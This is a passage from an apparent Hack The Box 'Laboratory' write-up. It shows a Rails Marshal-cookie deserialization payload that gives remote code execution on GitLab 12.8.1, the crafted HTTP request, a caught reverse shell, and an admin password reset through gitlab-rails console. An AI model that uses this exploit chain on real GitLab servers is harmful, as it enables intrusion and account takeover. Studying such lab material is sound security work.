 ```
Cookie: experimentation_subject_id=%42%41--redacted--; event_filter=all; sidebar_collapsed=false; _gitlab_session=t66bghia85624bc6789d2w18c3aa6mlo93
```
I made another payload to call the shell in `/tmp/shell.sh`:
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash /tmp/shell.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
and than i encoded the marshell-payload, in order to proceed with a new http request:
```
GET / HTTP/1.1
Host: git.laboratory.htb
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: experimentation_subject_id=%42%41--redacted--; event_filter=all; sidebar_collapsed=false; _gitlab_session=t66bghia85624bc6789d2w18c3aa6mlo93
```
so i got a reverse shell:
```
$ rlwrap nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.148] from (UNKNOWN) [10.10.10.216] 37206
bash: cannot set terminal process group (375): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$
```
After a bunch of enumeration,since the gitlab was installed, i could spawn a gitlab-rails console and reset the admin password. Following official documentation [](https://docs.gitlab.com/12.10/ee/security/reset_root_password.html):

```
git@git:~/gitlab-rails/working$ gitlab-rails console
gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.where(id: 1).first
user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
irb(main):002:0>
irb(main):004:0> user.password = 'secret_pass'
user.password = 'secret_pass'
user.password = 'secret_pass'
```